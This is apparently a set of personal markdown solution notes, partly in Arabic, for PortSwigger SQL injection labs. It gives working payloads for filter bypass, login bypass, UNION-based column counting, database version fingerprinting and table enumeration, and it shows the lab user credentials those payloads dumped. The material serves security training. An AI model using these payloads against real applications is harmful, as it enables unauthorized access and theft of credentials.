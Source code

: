 # Sqli 

<details>
  <summary>Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data</summary>

> ### This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

---
 
* ```url
  /filter?category=Pets
  ```
  * ```url
    /filter?category=Pets' or 1=1 --
    ```

  
</details>







<details>
  <summary>Lab: SQL injection vulnerability allowing login bypass</summary>

> ###  This lab contains a SQL injection vulnerability in the login function.
* > To solve the lab, perform a SQL injection attack that logs in to the application as the ``administrator`` user.

---


```url
csrf=Wf2ku02yY3tefRdA4rFJfn8d1Z48oOeq&username=user&password=pass
```
put username = ``administrator" --`` and write any passowrd it will be ignored anyway and if ``'`` not work try ``"``

```url
csrf=Wf2ku02yY3tefRdA4rFJfn8d1Z48oOeq&username=administrator' --&password=pass
```

  
</details>




<details>
  <summary>Lab: SQL injection attack, querying the database type and version on Oracle</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
* > To solve the lab, display the database version string. 

* <details>
     <summary>Hint</summary>

  On Oracle databases, every ``SELECT`` statement must specify a table to select ``FROM``. If your ``UNION SELECT`` attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.
  
  There is a built-in table on Oracle called ``dual`` which you can use for this purpose. For example: ``UNION SELECT 'abc' FROM dual``   

  </details>


⚠️⚠️
<details>
  <summary>aobut union injection</summary>

✅ أولاً: "تتأكد إن أنواع البيانات في الأعمدة المتحده (unioned) متوافقة" يعني إيه؟
لما تستخدم ``UNION``، انت بتدمج نتيجتين مع بعض، فلازم الأعمدة اللي في الاستعلام الأول والتاني يكونوا نفس العدد ونفس نوع البيانات.

مثال توضيحي:
لو الاستعلام الأصلي بيرجع:

```sql
id (رقم), name (نص), email (نص)
```

فأنت لازم تكتب: 

```sql
UNION SELECT 1, 'admin', 'admin@example.com'
```
  
</details>
⚠️⚠️

----


```
/filter?category=Gifts
```
first check number of coulmns :

* ```url
  /filter?category=Gifts'union select null FROM dual--
  ```

* ```url
  /filter?category=Gifts'union select null,null FROM dual--
  ```

for check type of coulmns :

* ```url
  /filter?category=Gifts'union select 'a','a' FROM dual--
  ```

now try to know database version :

* **``Oracle :``**
   * ``SELECT banner FROM v$version``
   * ``SELECT version FROM``
   * ``v$instance``

* **``Microsoft :``**
   * ``SELECT @@version`` 

* **``PostgreSQL :``**
   * ``SELECT version()``

* **``MySQL :``**
   * ``SELECT @@version`` 



* ```url
  /filter?category=Gifts'union SELECT banner,NULL FROM v$version--
  ```



  
</details>








<details>
  <summary>Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
> To solve the lab, display the database version string. 


---

```url
'+UNION+SELECT+'abc','def'#
```

* ```
  '+UNION+SELECT+@@version,+NULL#
  ```

  
</details>






<details>
  <summary>Lab: SQL injection attack, listing the database contents on non-Oracle databases</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
> ### The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
> To solve the lab, log in as the ``administrator`` user. 


---

```
/filter?category=Gifts' union select NULL,NULL--
```

* <details>
     <summary>⚠️list tables in database⚠️</summary>




  
  ## 🔍 1. Determine the Number of Columns
  
  ```sql
  ' ORDER BY 1--
  ' ORDER BY 2--
  ...
  ' ORDER BY N--
  ```
  
  أوقف عند أول رقم يعطيك خطأ → عدد الأعمدة هو الرقم السابق.
  
  أو باستخدام `UNION SELECT NULL`:
  
  ```sql
  ' UNION SELECT NULL--
  ' UNION SELECT NULL,NULL--
  ' UNION SELECT NULL,NULL,NULL--
  ```
  
  حتى لا يظهر خطأ.
  
  ---
  
  ## 🧠 2. Find Reflectable Columns (أي عمود يظهر على الصفحة)
  
  ```sql
  ' UNION SELECT 'a', NULL--
  ' UNION SELECT NULL, 'a'--
  ```
  
  غيّر مكان `'a'` لترى أين يظهر على الصفحة.
  
  ---
  
  
  
  ## 📋 4. List Tables in the Database
  
  ### 🐬 MySQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()--
  ```
  
  ### 🐘 PostgreSQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema='public'--
  ```
  
  ### 🪟 MSSQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables--
  -- OR --
  ' UNION SELECT name, NULL FROM sys.tables--
  ```
  
  ### 🟠 Oracle
  
  ```sql
  ' UNION SELECT table_name, NULL FROM all_tables--
  ```
  
  ---
  
  ## 📑 5. List Columns in a Table
  
  ### 🐬 MySQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ### 🐘 PostgreSQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ### 🪟 MSSQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ---
  
  ## 🧪 Example (MySQL)
  
  - Suppose we know the number of columns is 2, and the first column reflects to the page:
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()--
  ```
  

  
 

     
   </details>


* ```sql
  '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
  ```

![image](https://github.com/user-attachments/assets/5dca3238-d8de-478c-9975-a5e940982015)

```
users_qtmswl
```

found tables 

* ```sql
  '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_qtmswl'--
  ```

found colums:

```
username_xwttla
email
password_ztcwwk
```

* ```sql
  ' UNION+SELECT username_xwttla, password_ztcwwk FROM users_qtmswl--
  ```

![image](https://github.com/user-attachments/assets/c759f3d6-5a1b-4884-885e-9b4ac82fa789)

```
administrator : 3cwvdutv09z9slmekkwm
```
  
</details>






<details>
  <summary>Lab: SQL injection attack, listing the database contents on Oracle</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
> ### The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
> To solve the lab, log in as the administrator user. 

---


```
'+UNION+SELECT+'abc','def'+FROM+dual--
```

```sql
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

* ```
  USERS_PURPGR
  ```

```
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_PURPGR'--
```

* ```
  PASSWORD_BGNVEO
  USERNAME_WWJQEC
  ```

```
'+UNION+SELECT+USERNAME_WWJQEC,+ PASSWORD_BGNVEO+FROM+USERS_PURPGR--
```

* ```
  administrator
	io37vj2yyj6q36piu2uo
  carlos
	gthqs6kajajbsnpy9xc1
  wiener
	46bp8uni00wnytsv0yob
  ```



  
</details>







<details>
   <summary>Lab: SQL injection UNION attack, determining the number of columns returned by the query</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.
> To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values. 


---

```SQL
/filter?category=Pets' union select NULL --
```

```SQL
/filter?category=Pets' union select NULL,NULL --
```

```SQL
/filter?category=Pets' union select NULL,NULL,NULL --
```





</details>











































































## [Portsqigger cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)



































